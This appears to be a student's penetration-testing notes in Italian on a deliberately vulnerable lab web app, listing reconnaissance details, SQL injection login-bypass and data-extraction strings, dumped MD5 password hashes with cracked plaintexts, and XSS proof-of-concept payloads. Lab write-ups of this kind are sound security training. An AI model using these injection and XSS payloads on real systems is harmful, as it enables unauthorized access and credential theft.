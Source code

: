 # ProgettoPT
Progetto Penetration Testing

*docker pull gabrielec/ptexam*

*docker run gabrielec/ptexam*

[Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master)

Info generiche

- Debian (url random da pagina di errore Apache)

- Apache server 2.4.38 (url random da pagina di errore Apache)

- PHP 7.2.34 (Response Header e debug.php)

- MariaDB (carattere ' in username nella pagina login)

- Tabella con gli Utenti (Case insensitive):

  - Colonna Username (Campo Username nel Login: ' OR Username #)

  - Colonna Password (Campo Username nel Login: ' OR Password #)

  - Colonna Id (Campo Username nel Login: ' OR Id #)

- Query per Login:
  
  - seleziona due parametri (' OR 1 LIKE 1 UNION SELECT 1, 1 #)

  - Carattere = non permesso

  - sostituisce gli spazi con dei +

  - hash MD5 di password (Username: frog'; password: frog)

- Pagine (non banali) presenti: (metasploit: auxiliary/scanner/http/files_dir)

  - config.php
  
    - Vuota
  
  - debug.php
  
    - Server Administrator: webmaster@localhost

    - Server Root: /etc/apache2

    - DOCUMENT_ROOT: /var/www/html

    - SMTP

  - logout.php

- Utenti: (enum_users())

  - {'sysadmin', 'utente', 'agentx', 'tizio.incognito', 'jackofspade'}

- Il message di un report non viene visualizzato nella pagina /report.php

Vulnerabilità, PoF e Exploit

- SQL Injection (/login.php)
  
  - Bypass Login:

    - ' OR Username LIKE (SELECT Username) LIMIT 1; #

    - ' OR Username LIKE 'agentX' LIMIT 1; #

  - Password (hashed MD5):  (get_password())

    - agentx: b20e0aaa66fdd9a7a5b2ebf49d32b91b 

    - sysadmin: fcea920f7412b5da7be0cf42b8c93759 (Plain: 1234567)

    - utente: bed128365216c019988915ed3add75fb (Plain: passw0rd)

    - tizio.incognito: 5ebe2294ecd0e0f08eab7690d2a6ee69 (Plain: secret)

    - jackofspade: 617882784af86bff022c4b57a62c807b

  - Id:  (get_id())

    - agentx: 10 

    - sysadmin: 1337

    - utente: 42

    - tizio.incognito: 7

    - jackofspade: 8

(Informazioni sugli utenti confermate dall'injection sui reports)

- SQL Injection (/send.php) 
  
  - Tabella con i report con 2 campi (Campo title: test2', 'abc2'); # )

  - User MySQL connesso a PHP: admin@localhost (Campo title: 123', (SELECT user())); # )

  - System User: admin@localhost

  - Nome Database: niadb

  - Versione MariaDB: 10.3.39-MariaDB-0+deb10u2 ()

  - Tabelle DB: (inject_sql('(SELECT table_name FROM information_schema.tables WHERE table_schema LIKE 'niadb' LIMIT 0, 1)))

    - reports(repid: smallint, agent: varchar, title: varchar, message: varchar) (inject_sql("(SELECT CONCAT(column_name, data_type) FROM information_schema.columns WHERE table_schema LIKE 'niadb' AND table_name LIKE 'reports' LIMIT 0, 1)"))

    - agents(id:smallint, username: varchar, password: varchar) (inject_sql("(SELECT CONCAT(column_name, data_type) FROM information_schema.columns WHERE table_schema LIKE 'niadb' AND table_name LIKE 'agents' LIMIT 0, 1)"))

- Reflected XSS (/welcome.php) (PoC non trovato perchè < e > sono nella blacklist)

- Reflected XSS (/recovery.php) ( <script>alert(1)</script> )

- Stored XSS (/report.php) ( 123', '<script>alert(1)</script>')); # )